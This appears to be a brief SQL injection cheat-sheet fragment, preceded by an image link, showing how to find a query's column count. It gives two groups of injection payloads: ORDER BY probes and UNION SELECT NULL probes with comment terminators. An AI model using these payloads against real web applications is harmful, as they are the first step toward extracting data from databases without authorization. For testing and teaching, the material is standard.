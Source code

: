 ##Determining the number of columns required
First Method:
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
Second Method:
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--




